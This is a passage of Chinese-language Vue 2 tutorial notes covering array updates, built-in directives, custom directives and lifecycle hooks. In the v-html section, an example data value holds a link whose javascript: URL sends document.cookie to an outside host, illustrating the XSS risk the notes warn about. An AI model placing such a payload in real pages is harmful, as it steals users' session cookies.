1. 调用原生对应的方法对数组进行更新

2. 重新解析模板，进而更新页面

在Vue修改数组中的某个元素一定要用如下方法：

使用这些API：push()、pop()、shift()、unshift()、splice()、sort()、reverse()
Vue.set() 或 vm.$set()

特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！

## 内置指令

### v-text

1. 作用：向其所在的节点中渲染文本内容。

2. 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

``` html
<!-- 准备好一个容器-->
<div id="root">
    <div> 你好，{{name}}</div>
    <div v-text="name"> </div>
    <div v-text="str"> </div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3> 你好啊！</h3>'
        }
    })
</script>
```

### v-html

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

* v-html会替换掉节点中所有的内容，{{xx}}则不会。
* v-html可以识别html结构。

3. 严重注意：v-html有安全性问题！！！！

* 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
* 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

``` html
<!-- 准备好一个容器-->
<div id="root">
    <div> 你好，{{name}}</div>
    <div v-html="str"> </div>
    <div v-html="str2"> </div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3> 你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie> 兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

### v-cloak

- 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
- 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

``` html
<style>
    [v-cloak]{
        display: none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"> </script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

### v-once

- v-once所在节点在初次动态渲染后，就视为静态内容了。
- 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-once> 初始化的 n 值是:{{ n }}</h2>
    <h2> 当前的 n 值是:{{ n }}</h2>
    <button @click="n++"> 点我 n+1 </button>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n: 1
        }
    })
</script>
```

### v-pre

- 跳过其所在节点的编译过程
- 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

``` html
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-pre> Vue 其实很简单 </h2>
    <h2 > 当前的 n 值是:{{n}}</h2>
    <button @click="n++"> 点我 n+1 </button>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n: 1
        }
    })
</script>
```

## 自定义指令

需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。

需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点

**语法**

局部指令：

``` js
directives: {
  focus: {
    // 指令的定义
    inserted: function (el) {
      el.focus()
    }
  }
}
```

全局指令：

``` js
<script>
    // 注册一个全局自定义指令 `v-focus`
    Vue.directive('focus', {
        // 当被绑定的元素插入到 DOM 中时……
        inserted: function (el) {
            // 聚焦元素
            el.focus()
        }
    })
</script>
```

配置对象中常用的3个回调：

- bind：指令与元素成功绑定时调用。
- inserted：指令所在元素被插入页面时调用。
- update：指令所在模板结构被重新解析时调用。

**定义全局指令**

``` js
<!-- 准备好一个容器-->
<div id="root">
    <input type="text" v-fbind:value="n">
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    //定义全局指令
    Vue.directive('fbind', {
        // 指令与元素成功绑定时（一上来）
        bind(element, binding){
            element.value = binding.value
        },
        // 指令所在元素被插入页面时
        inserted(element, binding){
            element.focus()
        },
        // 指令所在的模板被重新解析时
        update(element, binding){
            element.value = binding.value
        }
    })
    
    new Vue({
        el:'#root',
        data:{
            name: '尚硅谷',
            n: 1
        }
    })
</script>
```

**局部指令**

``` js
new Vue({
    el: '#root',
    data: {
        name:'尚硅谷',
        n: 1
    },
    directives: {
        // big 函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
        /* 'big-number'(element, binding){
					// console.log('big')
					element.innerText = binding.value * 10
				}, */
        big (element, binding){
            console.log('big', this) //注意此处的 this 是 window
            // console.log('big')
            element.innerText = binding.value * 10
        },
        fbind: {
            //指令与元素成功绑定时（一上来）
            bind (element, binding){
                element.value = binding.value
            },
            //指令所在元素被插入页面时
            inserted (element, binding){
                element.focus()
            },
            //指令所在的模板被重新解析时
            update (element, binding){
                element.value = binding.value
            }
        }
    }
})
```

## 生命周期


1. beforeCreate（创建前）：数据监测（getter和setter）和初始化事件还未开始，此时 data 的响应式追踪、event/watcher 都还没有被设置，也就是说不能访问到data、computed、watch、methods上的方法和数据。
2. created（创建后）：实例创建完成，实例上配置的 options 包括 data、computed、watch、methods 等都配置完成，但是此时渲染得节点还未挂载到 DOM，所以不能访问到 $el属性。
3. beforeMount（挂载前）：在挂载开始之前被调用，相关的render函数首次被调用。此阶段Vue开始解析模板，生成虚拟DOM存在内存中，还没有把虚拟DOM转换成真实DOM，插入页面中。所以网页不能显示解析好的内容。
4. mounted（挂载后）：在el被新创建的 vm.$el（就是真实DOM的拷贝）替换，并挂载到实例上去之后调用（将内存中的虚拟DOM转为真实DOM，真实DOM插入页面）。此时页面中呈现的是经过Vue编译的DOM，这时在这个钩子函数中对DOM的操作可以有效，但要尽量避免。一般在这个阶段进行：开启定时器，发送网络请求，订阅消息，绑定自定义事件等等
5. beforeUpdate（更新前）：响应式数据更新时调用，此时虽然响应式数据更新了，但是对应的真实 DOM 还没有被渲染（数据是新的，但页面是旧的，页面和数据没保持同步呢）。
6. updated（更新后） ：在由于数据更改导致的虚拟DOM重新渲染和打补丁之后调用。此时 DOM 已经根据响应式数据的变化更新了。调用时，组件 DOM已经更新，所以可以执行依赖于DOM的操作。然而在大多数情况下，应该避免在此期间更改状态，因为这可能会导致更新无限循环。该钩子在服务器端渲染期间不被调用。
7. beforeDestroy（销毁前）：实例销毁之前调用。这一步，实例仍然完全可用，this 仍能获取到实例。在这个阶段一般进行关闭定时器，取消订阅消息，解绑自定义事件。
8. destroyed（销毁后）：实例销毁后调用，调用后，Vue 实例指示的所有东西都会解绑定，所有的事件监听器会被移除，所有的子实例也会被销毁。该钩子在服务端渲染期间不被调用。

``` html
//=== 创建时的四个事件
beforeCreate() { // 第一个被执行的钩子方法：实例被创建出来之前执行
    console.log(this.message) //undefined
    this.show() //TypeError: this.show is not a function
    // beforeCreate 执行时，data 和 methods 中的 数据都还没有没初始化
},
created() { // 第二个被执行的钩子方法
    console.log(this.message) //床前明月光
    this.show() //执行 show 方法
    // created 执行时，data 和 methods 都已经被初始化好了！
    // 如果要调用 methods 中的方法，或者操作 data 中的数据，最早，只能在 created 中操作
},
beforeMount() { // 第三个被执行的钩子方法
    console.log(document.getElementById('h3').innerText) //{{ message }}
    // beforeMount 执行时，模板已经在内存中编辑完成了，尚未被渲染到页面中
},
mounted() { // 第四个被执行的钩子方法
    console.log(document.getElementById('h3').innerText) //床前明月光
    // 内存中的模板已经渲染到页面，用户已经可以看见内容
},
//=== 运行中的两个事件
beforeUpdate() { // 数据更新的前一刻
    console.log('界面显示的内容：' + document.getElementById('h3').innerText)
    console.log('data 中的 message 数据是：' + this.message)
    // beforeUpdate 执行时，内存中的数据已更新，但是页面尚未被渲染
},
updated() {
    console.log('界面显示的内容：' + document.getElementById('h3').innerText)
    console.log('data 中的 message 数据是：' + this.message)
    // updated 执行时，内存中的数据已更新，并且页面已经被渲染
}
```


先判断有没有 el 这个配置项，没有就调用 vm.$mount(el)，如果两个都没有就一直卡着，显示的界面就是最原始的容器的界面。有 el 这个配置项，就进行判断有没有 template 这个配置项，没有 template 就将 el 绑定的容器编译为 vue 模板，来个对比图。

没编译前的：


编译后：


这个 template 有啥用咧？

**第一种情况，有 template：**

如果 el 绑定的容器没有任何内容，就一个空壳子，但在 Vue 实例中写了 template，就会编译解析这个 template 里的内容，生成虚拟 DOM，最后将 虚拟 DOM 转为 真实 DOM 插入页面（其实就可以理解为 template 替代了 el 绑定的容器的内容）。


**第二种情况，没有 template：**

没有 template，就编译解析 el 绑定的容器，生成虚拟 DOM，后面就顺着生命周期执行下去。
